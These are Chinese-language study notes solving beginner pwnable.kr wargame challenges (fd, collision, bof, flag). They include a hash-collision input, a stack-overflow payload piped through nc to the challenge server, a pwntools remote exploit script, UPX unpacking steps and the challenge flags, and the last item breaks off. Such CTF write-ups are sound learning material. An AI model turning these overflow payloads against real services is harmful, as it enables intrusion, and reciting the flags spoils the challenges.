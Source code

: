## Pwn学习笔记

1. Pwnable.kr题目[fd]，阅读代码发现程序运行时传入的参数减去0x1234为read的第一个参数fd，若传入4660则会从标准输入中再读取32个字节到buf，再将buf和'LETMEWIN'比较，正确则输出flag。

   - solution

     ```shell
     ./fd 4660
     LETMEWIN
     ```

   - flag

     - mommy! I think I know what a file descriptor is!!

2. Pwnable.kr题目collision，阅读代码发现程序是通过读取20个bytes，然后将其当作5个整型进行相加，最后的结果和0x21DD09EC进行比较，正确则输出flag。一开始直接输入16个\x00和\xEC\x09\xDD\x21会提示长度不是20 bytes，因为\x09是制表符，会截断输入。因此换成输入16个\x01和\xE8\x05\xD9\x1D即可。

   - solution

     ```shell
     ./col \`python -c "print '\x01' * 16 + '\xE8\x05\xD9\x1D'"\`
     ```

   - tips
     - 小端模式
     - 反引号`（和波浪符～同一个键）可以执行程序，将程序输出作为运行程序的参数

   - flag

     - daddy! I just managed to create a hash collision :)

3. Pwnable.kr题目bof，栈溢出题目，要改变传入参数key，使其变为0xcafebabe。用gdb调试并打印内存，可以知道字符串s和key的地址，如下所示

   0xffffce10:	0x00000009	0xffffd104	0xf7e094a9	0x61616161 <- 字符s起始地址，0xffffce1c
   0xffffce20:	0x61616161	0x61616161	0x61616161	0x61616161
   0xffffce30:	0x61616161	0x61616161	0x61616161	0x968c6b00
   0xffffce40:	0x00000000	0xf7e095db	0xffffce68	0x5655569f
   0xffffce50:	0xdeadbeef	 <-参数key所在地址，0xffffce50

   可知两个变量之间相差52个字节，用python -c "print 'a'*52+'\xbe\xba\xfe\xca'"可以生成输入字符串

   用ida打开程序bof也可以找到字符串s和key之间的相差多少字节

   ![1541557917281](/home/wji/.config/Typora/typora-user-images/1541557917281.png)

   - solution

     ```
     (python -c "print 'a'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
     ls
     cat flag
     ```

     #################################################

     ```
     #!/usr/bin/env python
     # coding=utf-8
     import pwn	
     r=pwn.remote('pwnable.kr',9000)
     r.send('a'*52+pwn.p32(0xcafebabe))
     r.interactive()
     ```

   - tips
     - 将python打印语句用括号括起来放在前面，后面再运行程序就会将python打印的语句作为程序的标准输入中获取的参数
     - 后面加一句cat是为了不让shell一闪而过
     - pwn.p32(0xcafebabe)就可以直接生成16进制输入串，再也不用自己一个个按照小端模式打了
   - flag
     - daddy, I just pwned a buFFer :)

4. Pwnable.kr题目flag，直接用ida打开发现没有main函数，有很多跳转，根据提示“a packed present“，猜想可能是加壳程序，利用查壳工具exeinfo查看程序，发现加了upx壳，利用`upx -d flag`可以进行脱壳。用ida打开脱壳之后的程序，查看main函数，很容易发现flag，双击flag变量直接用ida就能查看。
   - flag
     - UPX...? sounds like a delivery service :)
5. Pwnable.kr题目passcode  338150 13371337